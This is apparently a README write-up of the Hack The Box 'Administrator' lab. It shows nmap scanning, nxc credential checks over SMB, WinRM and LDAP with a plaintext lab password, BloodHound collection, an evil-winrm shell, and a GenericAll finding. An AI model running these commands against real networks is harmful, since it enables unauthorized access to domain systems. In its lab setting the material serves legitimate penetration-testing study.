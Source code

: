 # -HTB-Administrator


### I start with nmap 

```
nmap -p- -sVC 10.10.11.42 -oN nmap_scan --min-rate 5000 -vv 
```

<img width="1249" height="859" alt="image" src="https://github.com/user-attachments/assets/8a686a15-54c8-4398-9589-1d8824e398cf" />


### I test the creds

```
Olivia:ichliebedich
```

```
nxc smb 10.10.11.42 -u "Olivia" -p "ichliebedich"
```

```
nxc winrm 10.10.11.42 -u "Olivia" -p "ichliebedich" 
```

<img width="1450" height="214" alt="image" src="https://github.com/user-attachments/assets/b98da1c7-a48e-4695-87c2-74feb9b5cb89" />


### I colect the zip for bloodhound 

```
nxc ldap DC.administrator.htb -u 'Olivia' -p 'ichliebedich'  --bloodhound --collection All --dns-tcp --dns-server 10.10.11.42
```

# Winrm -> Olivia

```
evil-winrm -i 10.10.11.42 -u "Olivia" -p 'ichliebedich'
```


### On BloodHound we can se Olivia have GenericAll to Michel 

<img width="1795" height="771" alt="image" src="https://github.com/user-attachments/assets/50091dc9-ffb8-490a-a3b8-9224432f9a80" />




